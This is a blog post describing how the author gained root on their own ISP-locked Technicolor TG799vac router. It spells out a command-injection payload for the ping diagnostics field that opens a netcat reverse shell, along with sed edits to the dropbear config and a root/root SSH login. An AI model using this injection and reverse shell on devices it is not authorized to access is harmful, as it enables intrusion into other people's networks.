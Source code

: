 ```yaml
---
title: Getting root access to your Technicolor TG799vac Xtream (Crimson (15.4))
date: 2018-07-25T12:00:00Z
draft: false
---
```

## Intro
Today, I received a free Technicolor TG799vac Xtream router from my ISP, which seems to have quite decent hardware according to my google-fu. I already have a router (two technically speaking), so I have no real need for it. But I have a way it might come to use.

See, currently I have one router without any radio, which I use as my main gateway and router. This is a really nice machine for the most part, so I really like having it for that purpose.  But since I also need WiFi at home, I have my old router which only runs as an access point, forwarding all traffic to my router. Since this AP is upstairs, it wouldn't be too bad having another AP downstairs, maybe somewhere where it gives better WiFi to my garden or garage. This is the idea at least.

Sadly, my ISP has locked the new router down. Making it not possible to put it any kind of AP-only/bridge mode. Fortunately, the security for the device seems shitty, making it easy to get root access through the web interface.

## Steps to gain shell root access
1. Connect to the router's network  
2. Start listening with netcat on your favourite port - `nc -l 8080`  
3. Log in to the web interface with the information you received from your ISP - in my case it's located at http://192.168.10.1 and the username is *admin*  
4. Go to the *Diagnostics Ping & Traceroute* card  
5. Under *Ping Statistics*, Set *IP Address* to `:::::::;nc 192.168.10.216 8080 -e /bin/sh` and press *Send Ping Request*  
6. Back to the netcat window, here you should have root access to an ash-shell, even though nothing is visible right now. Type any command, like`ls`, to confirm.  
7. Since these kind of reverse-shells are a pain to work in, the first step is getting access to ssh.
Luckily, there should be one installed, though blocked for you.
To see the configuration, type `cat /etc/config/dropbear`. Mine looked like this:  

```
config dropbear
    option PasswordAuth 'off'
    option RootPasswordAuth 'on'
    option Port '22'
    option Interface 'wan'
#this statement in itself is not working, need FW rule:
    option AllowedClientIPs '195.54.114.216/29 195.54.106.0/28 195.54.106.144/28'
    option enable '1'

#config dropbear
#        option PasswordAuth     'on'
#        option RootPasswordAuth 'on'
#        option Port             '22'
#        option Interface        'lan'
#        option enable '1'
```
Here we see that the router is completely open to people from some ip-ranges from WAN, but closed to you. In fact the complete opposite from what we want. If you have exactly the same configuration, you have fix it by running `sed -i -e '1,9 d' -e's/#//' /etc/config/dropbear`. You want to end up with something like this:
```
config dropbear
        option PasswordAuth     'on'
        option RootPasswordAuth 'on'
        option Port             '22'
        option Interface        'lan'
        option enable '1'
```
8. Restart dropbear - `/etc/init.d/dropbear restart`  
9. Connect through ssh from another shell - `ssh root@192.168.10.1`, username and password is *root*. TADA

```
The authenticity of host '192.168.10.1 (192.168.10.1)' can't be established.
RSA key fingerprint is SHA256:ZEP4kdhhGqvYO4cNN3aAkXUXs+MPHMA2fpv1WlL7O90.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.10.1' (RSA) to the list of known hosts.
root@192.168.10.1's password:


BusyBox v1.19.4 (2016-12-23 11:07:18 UTC) built-in shell (ash)
Enter 'help' for a list of built-in commands.

-----------------------------------------------------------------------
                        ##
                   #########
                 ###########
                #########
               ####                      ##
              ##          ##             ##
      ###########        #####   ####    ##    ####    ## ###     ####    ## ##
   ########   #####       ##   ##    ##  ##  ##    ##  #######  ##    ##  #####
  ########    #######     ##   ##    ##  ##  ##    ##  ##   ##  ##    ##  ###
########      ########    ##   ########  ##  ########  ##   ##  ##    ##  ##
#######        ########   ##   ##        ##  ##        ##   ##  ##    ##  ##
######         #########  ####  ######   ###  ######   ##   ##    ####    ##
  ##            #########
                #########
                 ########
                  #######
                   #####
-----------------------------------------------------------------------

Product: vant-w_telenor_r15-4
Release: Crimson (15.4)
Version: 15.53.7451-1761003-20170320115330
```  
10. (Optional) Put your own rsa-key in */etc/dropbear/authorized_keys* and remove password login from */etc/config/dropbear*  

## What now
Now, it seems like the real OS is openwrt, meaning opkg is installed, which in turn can be used to install whatever you need. It also seems possible to unlock more cards on the web interface through the config in /etc/config. I might update this guide with some more info on this later.


